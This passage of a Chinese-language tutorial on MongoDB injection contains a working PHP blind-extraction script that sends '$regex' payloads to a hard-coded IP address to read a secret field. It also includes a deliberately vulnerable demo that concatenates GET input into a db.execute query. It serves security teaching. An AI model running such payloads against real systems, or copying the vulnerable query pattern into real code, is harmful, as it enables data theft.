 这样的话，因为只有“正确”或者“错误”两种回显，我们只能通过正则判断来一位一位读取lock的内容了。

对于该题的利用payload如下：

```
<?php 
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,'http://121.40.86.166:23339/');
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
curl_setopt($ch,CURLOPT_POST,1);
$ori = '0123456789abcdefghijklmnopqrstuvwxyz';
$str = '';
for ($i=0; $i <10 ; $i++) {
    for ($j=0; $j <strlen($ori) ; $j++) { 
        $post = 'key=1&lock[$regex]=^'.$str.$ori[$j];
        curl_setopt($ch,CURLOPT_POSTFIELDS,$post);
        $data=curl_exec($ch);
        if (strlen($data) == 319) {
           $str.=$ori[$j];
           echo $str."\r\n";
           break;
        }
    }
}
?>

```

结果如图：

![enter image description here](http://drops.javaweb.org/uploads/images/544cb60d69f39247d9457aa3d215a778faf998ff.jpg)

相当于在数据库中多次执行查询:

db.test.find({lock:{'$regex':'^a'}}); db.test.find({lock:{'$regex':'^b'}}); db.test.find({lock:{'$regex':'^c'}}); db.test.find({lock:{'$regex':'^ca'}}); …… …… db.test.find({lock:{'$regex':'^aabbccdd'}});

最终全部猜出字符串的内容,相似与sql注入中的盲注。

2.拼接字符串时的注入

因为字符串的拼接方式多种多样，不同程序员也有不同的书写习惯。

本文中仅举几个demo为例。

```
<?php
$username = $_GET['username'];
$password = $_GET['password'];
$query = "var data = db.test.findOne({username:'$username',password:'$password'});return data;";
//$query = "return db.test.findOne();";
//echo $query;
$mongo = new mongoclient();
$db = $mongo->myinfo;
$data = $db->execute($query);
if ($data['ok'] == 1) {
    if ($data['retval']!=NULL) {
        echo 'username:'.$data['retval']['username']."</br>";
        echo 'password:'.$data['retval']['password']."</br>";
    }else{
        echo '未找到';
    }
}else{
    echo $data['errmsg'];
}
?>

```